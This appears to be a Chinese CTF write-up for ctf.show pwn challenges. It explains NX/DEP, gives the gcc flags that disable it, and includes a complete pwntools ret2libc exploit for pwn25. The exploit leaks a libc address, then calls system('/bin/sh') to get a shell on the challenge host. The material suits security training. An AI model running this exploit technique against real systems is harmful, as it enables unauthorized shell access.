 栈溢出，shellcode，没有开NX直接传就可以

## NX(DEP)

NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。  
gcc编译器默认开启了NX选项，如果需要关闭NX选项，可以给gcc编译器添加`-z execstack`参数

```swift
gcc -o test test.c // 默认情况下，开启NX保护
gcc -z execstack -o test test.c // 禁用NX保护
gcc -z noexecstack -o test test.c // 开启NX保护
```
# pwn25

栈溢出libc调用，没有什么特殊的，可以`puts(got_addr)`或者`write(0,got_addr,4)`泄露.

``` python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
#sh = process('./pwn')
sh =remote('pwn.challenge.ctf.show', 28186)
context.log_level = 'debug' 

elf = ELF('./pwn')

puts_plt = elf.plt['puts']
setvbuf_got = elf.got['setvbuf']
main = elf.symbols['main']

payload = flat(['A' * (0x88 + 4), puts_plt, main,  setvbuf_got])
sh.sendline( payload)


setvbuf_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('setvbuf', setvbuf_addr)
libcbase = setvbuf_addr - libc.dump('setvbuf')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

payload = flat(['A' * (0x88+4), system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

# pwn26~29

**缺**：ALSR机制
